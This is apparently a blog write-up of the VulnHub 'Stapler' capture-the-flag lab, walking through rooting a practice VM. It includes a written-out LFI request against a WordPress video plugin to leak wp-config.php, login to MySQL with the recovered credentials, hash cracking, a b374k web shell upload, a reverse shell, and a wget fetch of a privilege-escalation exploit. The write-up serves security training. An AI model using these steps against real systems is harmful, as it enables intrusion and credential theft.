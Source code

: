Title: Stapler
Date: 2016-08-10 22:38
Category: VulnHub CTF

**This is a Stapler challenge from vulnhub.com. You can obtain the virtual
machine from: [here](https://www.vulnhub.com/entry/stapler-1,150/)**

'''
The primary object is to got root.
'''

Our nmap scan:

![](images/StaplerPics/1_nmap.png)

After running nmap script scan with -A switch:

```
nmap -A -T4 -p- 10.0.0.142
```
- Ftp Anon login allowed
![](images/StaplerPics/2_ftp_anon.png)

Base on what we found on the ftp we were able to enumerate these usernames:

- Harry
- Elly

port 12380 turn out to be web server:

![](images/StaplerPics/3_12380.png)

Another username:

- Tim

Scanning the web server:

![](images/StaplerPics/4_nikto_gimp.png)

![](images/StaplerPics/5_dirb_http.png)

![](images/StaplerPics/5_dirb_https.png)

It's look like the webserver on port 12380 serve http and https both on port
12380.From the robots.txt we found beef hook at admin112233 :D and what's look
like wordpress blog.

This is the results from the scans with wpscan:

Plugins enumeration:
![](images/StaplerPics/6_wpscan_enumerate_p.png)

and usernames enumeration:
![](images/StaplerPics/6_wpscan_enumerate_u.png)

Advanced video plugin is vulnerable to LFI.
![](images/StaplerPics/7_vulnerable_adv_vid.png)

This is the link to the available exploit: [exploit-db](https://www.exploit-db.com/exploits/39646/)

It's look like we could read the content of wp-config.
We were able to post on the blog with entering this url:

```
 https://10.0.0.142:12380/blogblog//wp-admin/admin-ajax.php?action=ave_publishPost&title=RANDOMSTR&short=rnd&term=rnd&thumb=../wp-config.php   
```
This created new post on the blog for us:

![](images/StaplerPics/8_post_created.png)

This is where the post was created:

![](images/StaplerPics/9_locate_LFI.png)

This image probably contain the content of wp-config.php.

![](images/StaplerPics/10_img_error.png)

So to be able to read the content lets download it with curl:

![](images/StaplerPics/11_wp_conf_dl.png)

MYSQL credentials: **root:plbkac**

Connect to the target on port 3306 mysql:

```
mysql --user=root --password=plbkac -h 10.0.0.142
```

The databases on the target:

![](images/StaplerPics/12_databases.png)

```
use wordpress;
```

```
show tables;
```
![](images/StaplerPics/12_1_wp_tables.png)

```
select * from wp_users;
```
![](images/StaplerPics/13_wp_users.png)

Ok now we have the hashes of all users on the wordpress blog. It's time to crack
them. After a while we got the admin account of john:

![](images/StaplerPics/14_john.png)

![](images/StaplerPics/15_web_admin.png)

We can't install plugin on the wp blog because we need ftp credentials.

![](images/StaplerPics/16_cant_upload.png)

Despite the error and the fact we haven't the ftp credentials of john our atempt
to upload b374k shell as plugin ended up uploaded in the media dir:

![](images/StaplerPics/17_media.png)

Now we have shell access to the target:

![](images/StaplerPics/18_shell.png)

Start reverse shell from b374k to our attacker machine:

![](images/StaplerPics/19_start_reverse_shell.png)

Catch the reverse shell and find out whoami and operation system version:

![](images/StaplerPics/20_catch_shell.png)

For ubuntu 16.04 there is privelege escalation exploit:

```
wget https://raw.githubusercontent.com/offensive-security/exploit-database-bin-sploits/master/sploits/39772.zip
```

After compile and execute the exploit:

![](images/StaplerPics/21_flag.png)
